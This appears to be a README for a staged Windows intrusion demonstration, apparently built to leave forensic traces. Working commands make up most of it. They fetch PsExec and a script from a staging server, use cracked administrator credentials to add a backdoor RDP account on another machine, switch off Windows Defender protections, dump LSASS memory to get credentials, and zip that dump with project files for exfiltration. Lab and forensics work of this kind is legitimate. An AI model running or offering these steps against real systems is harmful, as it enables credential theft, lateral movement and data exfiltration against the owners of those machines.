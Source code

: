 For this demonstration we assume the attacker has local admin on
Attack Victim usually via Phishing or other vector. We also assume the
attacker has credentials on the Main Victim machine so they can laterally
move to it (e.g. via dumping credentials from memory or brute forcing).

```
# Enable Prefetch
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\Memory Management\PrefetchParameters" /v EnablePrefetcher /t REG_DWORD /d 3 /f

reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Prefetcher" /v MaxPrefetchFiles /t REG_DWORD /d 8192 /f

powershell /c "Enable-MMAgent -OperationAPI"

curl.exe https://live.sysinternals.com/PsExec64.exe -o c:\Users\Administrator\Desktop\psexec64.exe
curl.exe http://172.31.7.131:1314/rdp.cmd -o c:\Users\Administrator\Desktop\rdp.cmd

# Below IP is for Victim - Creates new user and enable RDP access.
# You will be asked for password for the administrator account on
# MainVictim, which we assume the attacker has cracked.
c:\Users\Administrator\Desktop\psexec64.exe \\172.31.14.220 -u administrator -r notsuspicious -s -c c:\Users\Administrator\Desktop\rdp.cmd  -accepteula
```

## Log in with the new user credentials and RDP

The new account is created with the credentials in `rdp.cmd`
`winsupport/P@ssword` . It is probably a good idea to change the
password but do not use special chars like $ or quotes because they
make it harder to quote in powershell.

```
#!/bin/bash

xfreerdp /u:winsupport /v:$public_ip_of_victim /p:'P@ssword' -decorations /dynamic-resolution -compression -themes /f  /audio-mode:1 /t:WinSupport
```

Start a web browser and navigate to google: Search for "How to hack!"

Navigate to the staging server: http://172.31.7.131:1314/

Download pd.exe and `dump_creds.ps1`

Open explorer and navigate to `c:\users\administrator\desktop`

Open some documents (for recent files etc)

## Capturing credentials

* Open an `ISE` as administrator
* Start a new file . Paste the following into it

```
Set-MpPreference -DisableBehaviorMonitoring $true -DisableIntrusionPreventionSystem $true -DisableIOAVProtection $true -DisableScriptScanning $true -DisableRealtimeMonitoring $true -DisableArchiveScanning $true -DisableCatchupFullScan $true -DisableCatchupQuickScan $true -DisableRemovableDriveScanning $true -DisableRestorePoint $true -DisableScanningMappedNetworkDrivesForFullScan $true -DisableBlockAtFirstSeen $true -DisableGradualRelease $true -DisableRdpParsing $True

cd ~\Downloads

.\pd.exe -accepteula -r -ma lsass.exe c:\Users\Public\1

Compress-Archive  -Path C:\Users\Administrator\Desktop\ProjectX,C:\Users\Public\1.dmp -DestinationPath C:\Users\Public\data.zip -Force

```
